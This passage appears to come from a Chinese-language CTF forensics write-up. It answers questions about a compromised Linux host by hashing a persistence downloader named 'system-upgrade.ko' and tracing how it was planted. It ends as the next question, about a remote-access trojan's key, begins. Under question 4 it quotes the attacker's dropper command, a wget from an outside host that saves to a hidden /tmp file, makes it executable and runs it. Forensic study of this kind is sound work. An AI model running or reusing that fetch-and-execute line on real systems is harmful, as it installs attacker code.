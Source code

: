 md5加密该文件即可

### 题目3

找出主机上加载远控木马的持久化程序（下载者），其功能为下载并执行远控木马，计算该文件的 MD5, 结果提交形式：`flag{MD5}`

根据上面的分析，知道持久化程序是`system-upgrade.ko`

![image-20250317230143144](./img/image-20250317230143144.png)

计算md5即可

```powershell
D:\桌面 ⚡ Get-FileHash -Algorithm MD5 system-upgrade.ko

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             78EDBA7CBD107EB6E3D2F90F5ECA734E                                       D:\桌面\system-upgrade.ko
```

### 题目4

查找题目 3 中持久化程序（下载者）的植入痕迹，计算持久化程序植入时的原始名称 MD5（仅计算文件名称字符串 MD5），并提交对应 `flag{MD5}`

下载痕迹就是`1.txt`那个文件

```
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

原始名称是`.system_upgrade`

### 题目5

分析题目 2 中找到的远控木马，获取木马通信加密密钥, 结果提交形式：`flag{通信加密密钥}`

发现`/proc/self/exe`
